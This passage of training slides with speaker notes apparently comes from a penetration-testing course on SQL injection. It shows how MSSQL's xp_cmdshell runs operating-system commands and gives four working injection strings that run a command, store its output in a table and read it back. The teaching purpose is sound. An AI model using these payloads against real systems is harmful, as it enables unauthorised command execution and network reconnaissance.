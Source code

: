 


Note:



We will now explore ways to interact with the OS on the DB server.



---



OS Interaction (MSSQL)


- MS SQL allows OS interaction
- It uses the infamous xp_cmdshell
	- Stored procedure that runs OS commands
- Data is not sent to client
- Further queries are required to retrieve the results

Note:

32




A well-known default stored procedure is "xp_cmdshell." This allows us to use MSSQL server to run operating system commands.  The results are not displayed, so in the next slide we will discuss how to retrieve the results.

---



OS Interaction Example


- Four queries are used to run the command and  retrieve the results
	- The would be injected individually
- First injection:
	**'; exec master.xp_cmdshell  'route print > results.txt' --**
- Second injection:
	**'; Create TABLE results (outp varchar(5000)); --**
- Third injection:  
**'; BULK INSERT results FROM 'results.txt' with (rowterminator = "\n\n\n\n"); --******
- Fourth injection:
	**' and 1 in (select outp from results) --**

Note:

33




This example prints the local route table and then retrieves it.  As attackers, this would provide us with important internal network information.  We can then use this information to for further attacks.

We need to run four queries.  The injections would be:
